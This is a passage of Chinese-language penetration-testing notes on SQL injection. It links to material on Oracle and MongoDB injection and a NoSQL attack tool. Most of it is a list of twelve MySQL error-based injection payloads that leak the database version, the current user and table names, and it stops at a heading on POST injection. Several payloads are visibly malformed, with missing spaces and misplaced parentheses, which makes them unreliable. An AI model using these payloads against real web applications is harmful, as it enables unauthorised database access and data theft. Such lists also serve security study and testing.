 ### 四、Oracle注入

https://www.cnblogs.com/peterpan0707007/p/8242119.html

### 五、mongoDB注入

https://www.cnblogs.com/wefeng/p/11503102.html

SQLmap不能识别MongoDB这里介绍nosqlattack:https://github.com/youngyangyang04/NoSQLAttack



![img](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624416333795-8c0f82ef-e36f-4a6c-9382-b48e180b87c9.png)

## 三、 12种报错注入+万能语句

1、通过floor报错,注入语句如下:
 and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

3、通过UpdateXml报错,注入语句如下:
 and 1=(updatexml(1,concat(0x3a,(select user())),1))

4、通过NAME_CONST报错,注入语句如下:
 and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
 select * from(select * from mysql.user ajoin mysql.user b)c;

6、通过exp报错,注入语句如下:
 and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
 and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
 and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
 and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
 and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
 and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
 and linestring (()select * from(select user() )a)b );

# 关于POST注入
